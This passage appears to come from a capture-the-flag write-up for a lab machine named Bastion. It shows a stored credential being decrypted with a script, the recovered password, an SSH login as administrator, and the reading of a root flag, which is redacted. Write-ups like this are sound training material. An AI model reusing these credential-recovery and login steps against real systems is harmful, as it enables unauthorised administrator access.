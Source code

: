 ```
python3 decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```
### Obtaining root flag
Using the credentials obtained, we are able to ssh into the server with adminstator privileges.

```
administrator@BASTION C:\Users\Administrator>whoami                                                                  
bastion\administrator 
```

We will then be able to obtain the root flag.

```
administrator@BASTION C:\Users\Administrator\Desktop>type root.txt                                                   
<Redacted root flag>
```
